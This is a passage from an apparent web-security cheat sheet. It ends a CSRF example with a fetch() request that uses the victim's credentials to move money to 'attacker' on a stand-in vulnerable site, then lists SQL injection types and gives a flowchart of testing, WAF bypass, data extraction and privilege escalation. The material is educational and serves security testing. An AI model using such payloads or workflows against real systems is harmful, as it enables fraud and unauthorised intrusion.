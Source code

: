 ```html
fetch('http://vulnerable-site.com/api/transfer', {
    method: 'POST',
    credentials: 'include',
    body: JSON.stringify({amount: 1000, to: 'attacker'}),
    headers: {'Content-Type': 'application/json'}
});
</script>
```

---

## 💉 SQL Injection

### Overview
SQL Injection occurs when user input is improperly sanitized and directly concatenated into SQL queries.

### SQL Injection Types

1. **Classic SQL Injection**
2. **Blind SQL Injection**
3. **Time-based Blind SQL Injection**
4. **Union-based SQL Injection**
5. **Error-based SQL Injection**

### SQL Injection Attack Flowchart

```mermaid
flowchart TD
    A[Start SQL Injection Testing] --> B[Identify Input Parameters]
    B --> C[Test Basic Payloads]
    C --> D{Error Messages?}
    D -->|Yes| E[Error-based Exploitation]
    D -->|No| F[Test Boolean-based Blind]
    F --> G{Different Responses?}
    G -->|Yes| H[Boolean-based Exploitation]
    G -->|No| I[Test Time-based Blind]
    I --> J{Time Delays?}
    J -->|Yes| K[Time-based Exploitation]
    J -->|No| L[Test Union-based]
    L --> M{Union Successful?}
    M -->|Yes| N[Union-based Exploitation]
    M -->|No| O[Advanced Techniques]
    E --> P[Database Enumeration]
    H --> P
    K --> P
    N --> P
    O --> Q{WAF Present?}
    Q -->|Yes| R[WAF Bypass Techniques]
    Q -->|No| S[Document Findings]
    R --> T{Bypass Successful?}
    T -->|Yes| P
    T -->|No| S
    P --> U[Data Extraction]
    U --> V[Privilege Escalation]
    V --> W[Impact Assessment]
    W --> X[Report Generation]
    S --> X
```
